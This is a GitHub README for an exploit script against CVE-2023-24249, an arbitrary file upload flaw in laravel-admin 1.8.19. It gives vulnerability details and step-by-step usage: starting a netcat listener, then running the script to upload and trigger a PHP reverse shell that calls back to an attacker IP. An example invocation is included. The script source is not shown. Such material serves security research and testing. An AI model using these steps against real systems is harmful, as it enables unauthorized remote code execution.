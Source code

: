 # CVE-2023-24249 Exploit Script

## Description

This repository contains an exploit script for CVE-2023-24249, a critical vulnerability found in `laravel-admin` version 1.8.19. This vulnerability allows for arbitrary file upload, enabling attackers to execute arbitrary code via a crafted PHP file. The exploit demonstrates how an attacker can upload a reverse shell to the target application and execute it to gain remote access.

## Vulnerability Details

**CVE-2023-24249** is an arbitrary file upload vulnerability in `laravel-admin` v1.8.19. This vulnerability allows attackers to upload and execute arbitrary PHP files, leading to potential remote code execution.

- **Base Score**: 7.2 HIGH
- **Vector**: [CVSS:3.1/AV:N/AC:L/PR:H/UI:N/S:U/C:H/I:H/A:H](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:H/UI:N/S:U/C:H/I:H/A:H)
- **Weakness Enumeration**: CWE-434 - Unrestricted Upload of File with Dangerous Type

## References

- [Exploit - Third Party Advisory](https://flyd.uk/post/cve-2023-24249/)
- [Laravel Admin GitHub Repository](https://github.com/z-song/laravel-admin)
- [Laravel Admin Official Website](https://laravel-admin.org/)

## Exploit Script

The provided exploit script automates the process of exploiting CVE-2023-24249. It performs the following steps:
1. **Authenticate**: Logs into the target application using provided credentials.
2. **Upload Reverse Shell**: Uploads a PHP reverse shell script through the vulnerable file upload functionality.
3. **Execute Reverse Shell**: Sends a GET request to the uploaded reverse shell script to execute it and establish a connection back to the attacker's machine.

## Requirements

- Python 3
- `requests` library
- `beautifulsoup4` library

Install the required libraries using pip:
```sh
pip install requests beautifulsoup4
```

## Usage

1. **Clone the repository**:
    ```sh
    git clone https://github.com/IDUZZEL/CVE-2023-24249-Exploit.git
    cd CVE-2023-24249-Exploit
    ```

2. **Start a listener on your machine**:
    ```sh
    nc -lvnp <PORT>
    ```

3. **Run the exploit script**:
    ```sh
    python3 exploit.py -u <TARGET_URL> -U <USERNAME> -P <PASSWORD> -i <YOUR_IP> -p <YOUR_PORT>
    ```

    Replace `<TARGET_URL>`, `<USERNAME>`, `<PASSWORD>`, `<YOUR_IP>`, and `<YOUR_PORT>` with the appropriate values:
    - `<TARGET_URL>`: The URL of the target application.
    - `<USERNAME>`: The username for authentication.
    - `<PASSWORD>`: The password for authentication.
    - `<YOUR_IP>`: Your IP address to receive the reverse shell connection.
    - `<YOUR_PORT>`: The port on which your listener is running.

## Example

```sh
python3 exploit.py -u http://admin.iduzzel.com -U admin -P iduzzel -i 10.10.14.13 -p 1337
```

## Script Output

If the exploit is successful, the script will output:
```sh
[+] Reverse shell uploaded successfully! Attempting to execute it...
[+] Reverse shell executed successfully! Check your listener at <YOUR_IP>:<YOUR_PORT>
```

## Disclaimer

This script is intended for educational purposes only. Unauthorized use of this script against any system without explicit permission is illegal and unethical. The author is not responsible for any misuse or damage caused by this script.
